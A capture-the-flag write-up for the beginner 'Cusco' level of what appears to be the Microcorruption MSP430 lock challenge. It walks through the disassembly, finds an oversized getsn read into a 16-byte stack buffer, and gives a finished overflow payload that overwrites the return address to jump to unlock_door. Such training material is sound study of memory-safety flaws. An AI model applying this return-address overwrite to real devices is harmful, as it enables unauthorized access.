 # Cusco

**Difficulty:** Beginner  
**Date Completed:** 10/08/2025

I started this level by inspecting login method:

```asm
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	$+0xc <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	$+0x6 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

And the first thing I see is that before calling `getsn`, `r15` is loaded with a stack pointer, and `r14` is assigned the value `0x30`. This tells me `r15` is the memory location (on the stack) that will hold the user input password, and `r14` is the length of the buffer.

Immediately we can tell that 0x30 = 48 quite a large buffer given that password size constraint is specified between 8 and 16 characters/bytes. This tells me we can likely write past the 16-byte boundary and insert what we want on the stack.

Next step is to step into `getsn` and check the assembly:

```asm
4596 <getsn>
4596:  0e12           push	r14
4598:  0f12           push	r15
459a:  2312           push	#0x2
459c:  b012 4245      call	#0x4542 <INT>
45a0:  3150 0600      add	#0x6, sp
45a4:  3041           ret
```

Simple enough... It just push the params for the interrupt call onto the stack.
So let's inspect the stack right before the INT call (annotated):

```text
> r sp
43e6 0200 ee43 3000 1e45 0000 0000 0000 0000  ...C0..E........
     └─sp └─r15│    │    └─input buffer (43ee)    
               │    └─return address to caller addr=451e (login)
               └─r14
43f6 0000 0000 0000 0000 3c44 3140 0044 1542  ........<D1@.D.B
                         └─some address (443c)
```

So we see `sp`, `r15`, `r14` are the first 3 words on the stack (this is what we're passing to INT call to get user input), followed by the return address `451e` (remember this little-endian) - which is the memory address of the next instruction in `login()` after the call to `getsn`, followed by a 16-byte buffer, which is what `r15` points to (i.e. our input buffer).
Right after the 16-byte input buffer we have something that looks like a memory address `443c`, which is the return address of the call to `login()` from `main()` (i.e. the last return address of the program before the program loops forever and waits to reset).

```asm
4438 <main>
4438:  b012 0045      call	#0x4500 <login>
443c <__stop_progExec__>
443c:  32d0 f000      bis	#0xf0, sr
4440:  fd3f           jmp	$-0x4 <__stop_progExec__+0x0>
```

So if we overflow the input buffer past the 16-bytes, we can write any memory address we want the `pc` to jump to.

In the `login` method I see a call to `unlock_door` at `4528`.

```asm
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
```

So let's craft our input to be garbage 16-bytes HEX data followed by `2845` (4528 in little endian ordering).

**Solution: in HEX - `<16 bytes of random hex data>2845`.**

```sh
> solve
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa2845
```
